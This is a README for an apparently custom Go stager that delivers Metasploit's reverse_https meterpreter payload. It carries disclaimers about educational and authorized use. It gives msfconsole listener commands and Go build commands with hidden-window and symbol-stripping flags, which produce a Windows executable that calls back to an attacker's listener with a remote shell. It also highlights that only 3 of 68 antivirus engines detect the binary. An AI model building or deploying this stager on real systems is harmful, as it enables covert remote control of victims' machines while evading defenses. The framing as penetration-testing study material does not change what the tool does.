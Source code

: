 **!!! This is for educational purposes only !!!** <br> **!!! Use this only where authorized !!!**

This is a custom stager written for Metasploit Framework's reverse_https meterpreter payload. I wrote this to get a better understanding of Metasploit Framework's payloads and how well antiviruses detect custom stagers.

# Launching a listener
Using the included `.rc` file launch msfconsole i.e. `msfconsole -f ./listener.rc`

Or run at least the following commands in msfconsole substituting your listening address and port number:
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lport ENTERPORTNUMBERHERE
set lhost ENTERLISTENADDRESSHERE
run
```

# Compiling the payload
**Ensure you have changed the host and port variables in the msf_rev_https.go file.**

The following examples assume you have a shell open in the directory of the msf_rev_https.go file.

These will result in a `.exe` file that will call back to your msfconsole listener.
### Windows
    go build -trimpath -ldflags "-H=windowsgui -w -s" -o newExecutable.exe . 
### Linux
    env GOOS=windows GOARCH=amd64 go build -trimpath -ldflags "-s -w -H=windowsgui" -o newExecutable.exe .

# Detection
Custom payloads are difficult to detect, at the time of writing this payload was flagged by 3/68 antiviruses on VirusTotal. It is important to note that this is quite low, non-malicious executables are often flagged as well. I have linked below the results from my "newExecutable.exe", and one for putty.exe.

My Go reverse HTTPS meterpreter: https://www.virustotal.com/gui/file/26ac135ef4e7ed030186fc91338989bcbcebfc44c2cb54bc48ace9802097d51b/detection <br>
PuTTY v0.74: https://www.virustotal.com/gui/file/f032c50564a21c39a8c85873a4c96f09eb6398330c67291408497816401957f6/detection
